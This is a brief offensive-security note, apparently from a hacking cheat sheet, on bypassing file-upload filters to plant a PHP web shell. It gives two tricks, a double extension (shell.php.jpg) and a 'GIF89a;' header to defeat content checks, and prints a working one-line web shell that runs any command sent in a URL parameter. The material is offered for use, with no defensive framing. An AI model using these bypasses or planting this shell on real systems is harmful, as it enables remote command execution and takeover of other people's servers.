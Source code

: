 # Bypass image upload


## Rename it

But instead we can just rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```